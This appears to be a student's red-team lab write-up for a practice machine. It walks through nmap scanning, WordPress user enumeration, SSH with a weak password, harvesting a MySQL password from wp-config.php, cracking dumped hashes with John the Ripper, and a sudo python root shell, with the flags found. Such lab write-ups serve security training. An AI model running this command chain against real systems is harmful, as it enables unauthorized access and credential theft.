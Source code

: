 # Red Team: Summary of Operations

## Table of Contents

-  Exposed Services
-  Critical Vulnerabilities
-  Exploitation

### Network Scan To Identify All Available Networks:

-  nmap -sS -PO 192.168.1.*

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/nmap%20-sS%20-PO%20192.168.1.*.png">


### Target Identified
   
   -  Name:  **Target 1**
   -  IP Address: 192.168.1.110

#### Target Machine Scan

-  Nmap scan results for each machine reveal the below services and OS details:
    -  nmap -sV 192.168.110

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/nmap%20-sV%20192.168.1.110.png">

-  The scan above identifies the services below as potential points of entry:

    -  Port 22/TCP Open SSH
    -  Port 80/TCP Open HTTP
    -  Port 111/TCP Open rcpbind
    -  Port 139/TCP Open netbios-ssn
    -  Port 445/TCP Open netbios-ssn

## Critical Vulnerabilities

-  The following vulnerabilities were identified on the target Machine:
    -  1.  Wordpress user enumeration;
    -  2.  Weak user password
    -  3.  Able to obtain password for MySQL DB and start a session
    -  4.  Unsalted password hashes able to penetrate target machine and escalate user privilege to root

## Exploitatoin of Vulnerabilities

### Wordpress user enumeration: 
   - **Command Used** WordPress User Enumeration Scan:  wpscan --url http://192.168.1.110/wordpress --enumerate u

  -  **Vulnerability** CVE-2017-5487:  Scan enumerates user names and other possibly vulnerable paths and files.

  -  **Rating** Base Score: 5.3 Medium

As can be seen below the scan was successful in enumerating valid usernames of **Steven & Michael**

(Click On Image/s To Open In Expanded View)

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/wpscan%20enumeration%201.png" width="400" height="400"> <img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/wpscan%20enumeration_2.png" width="400" height="400">

### Weak user password:
  -  Weak user passwords made it possible  ssh into user shell with **Username - Michael** (Image Below).
     -  ssh michael@192.168.1.110
        -  PW = michael
  -  After login as Michael was able to traverse through directories and files where and found **Flag One & Flag Two** (Image/s Below):
     - Flag One = b9bbcb33ellb80be759c4e844862482d  
       -  /var/www/html/service.html
       -  nano service.html
     - Flag Two = fc3fd58dcdad9ab23faca6e9a3e581c
       -  /var/www/
       -  ls
       -  cat flag2.txt
  -  Able to find password to MySQL DB in the following direcotry and file (Image Below):
     -  /var/www/html/wp-config.php
     -  nano wp-config.php
     -  MySQL DB PW: R@v3nSecurity

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/flag-1.png">

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/MySQL_PW.png"> 

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/flag%202.png">
     
     
### Login To MySQL Database
  -  **Command/s Used** (See Images Below)
     -  mysql --user=root --password=R@v3nSecurity
     -  show database;
     -  use wordpress;
     -  show tables;
     -  select * from wp_users;
     -  select * from wp_posts;
        - **Flag3 Found** = afc01ab56b50591e7dccf93122770cd2
  -  Using the commands above was able to find and dump password hash for **Steven**
     -  created file on Kali Attack Machine for password hashes
        -  Command used: touch wp_hashes.txt
        -  nano wp_hashes.txt and added hashes
     -  using john the ripper obtained **Steven** password
        -  Command: john wp_hashes.txt
        -  PW = *pink84*

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/mysql%20show%20database.png"> 

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/use%20wordpress.png"> 

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/flag%203.png">

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/select%20*%20from%20wp_users.png">


### Able to establish user shell on target machine
  -  Logged in using **Steven** credentials
     -  ssh steven@192.168.1.110
     -  pw *pink84*
     -  escalated to root using: sudo -l
  -  Using python was able to penetrate target machine
     -  sudo python -c 'import pty;pty.spawn("/bin/bash")'
  -  Traversed the direcotry and found Flag 4
     -  **Flag4** 715dea6c055b9fe3337544932f2941ce
     -  cat flag4.txt

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/Escate%20to%20root%20using%20python.png">



